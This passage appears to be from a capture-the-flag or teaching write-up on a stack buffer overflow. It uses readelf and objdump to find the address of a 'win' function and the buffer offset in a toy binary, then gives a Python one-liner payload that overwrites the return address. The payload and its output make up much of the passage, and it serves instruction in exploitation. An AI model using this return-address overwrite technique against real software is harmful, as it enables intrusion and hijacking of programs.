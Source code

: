 
Now we have to overwrite the return address with the address of the function
`win`.
The program tells us the right address.
```
$ ./overflow2
win is located at 0x401156
Please enter your name: 
```
Alternatively, we can also look up the symbol in the binary, e.g., with
```
$ readelf -s overflow2 | grep win
    40: 0000000000401156    22 FUNC    GLOBAL DEFAULT   14 win
```

By looking at the disassembly of the function `vuln`, we find that the buffer
`name` is located at `[rbp-0x20]`.
```
$ objdump -M intel -d overflow2
[...]
000000000040116c <vuln>:
  40116c:       55                      push   rbp
  40116d:       48 89 e5                mov    rbp,rsp
  401170:       48 83 ec 20             sub    rsp,0x20
  401174:       48 8d 05 db ff ff ff    lea    rax,[rip+0xffffffffffffffdb]        # 401156 <win>
  40117b:       48 89 c6                mov    rsi,rax
  40117e:       48 8d 05 88 0e 00 00    lea    rax,[rip+0xe88]        # 40200d <_IO_stdin_used+0xd>
  401185:       48 89 c7                mov    rdi,rax
  401188:       b8 00 00 00 00          mov    eax,0x0
  40118d:       e8 be fe ff ff          call   401050 <printf@plt>
  401192:       48 8d 05 8a 0e 00 00    lea    rax,[rip+0xe8a]        # 402023 <_IO_stdin_used+0x23>
  401199:       48 89 c7                mov    rdi,rax
  40119c:       b8 00 00 00 00          mov    eax,0x0
  4011a1:       e8 aa fe ff ff          call   401050 <printf@plt>
  4011a6:       48 8d 45 e0             lea    rax,[rbp-0x20]         # <---- buffer `name` referenced here
  4011aa:       ba 40 01 00 00          mov    edx,0x140
  4011af:       48 89 c6                mov    rsi,rax
  4011b2:       bf 00 00 00 00          mov    edi,0x0
  4011b7:       e8 a4 fe ff ff          call   401060 <read@plt>
  4011bc:       48 8d 45 e0             lea    rax,[rbp-0x20]         # <---- and here
  4011c0:       48 89 c6                mov    rsi,rax
  4011c3:       48 8d 05 72 0e 00 00    lea    rax,[rip+0xe72]        # 40203c <_IO_stdin_used+0x3c>
  4011ca:       48 89 c7                mov    rdi,rax
  4011cd:       b8 00 00 00 00          mov    eax,0x0
  4011d2:       e8 79 fe ff ff          call   401050 <printf@plt>
  4011d7:       90                      nop
  4011d8:       c9                      leave  
  4011d9:       c3                      ret 
[...]
```
So we know that we find the saved base pointer at offset `0x20` and the return
address at offset `0x28`.
Therefore, sending a payload with the address of `win` at the right offset
results in execution of `win` (before the program crashes):
```
$ python -c "import os, struct; os.write(1, b'A'*0x28 + struct.pack('<Q', 0x401156))" | ./overflow2
win is located at 0x401156
Please enter your name: Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAV@!
Success!
[1]    1619075 done                              python -c  | 
       1619076 segmentation fault (core dumped)  ./overflow2
```
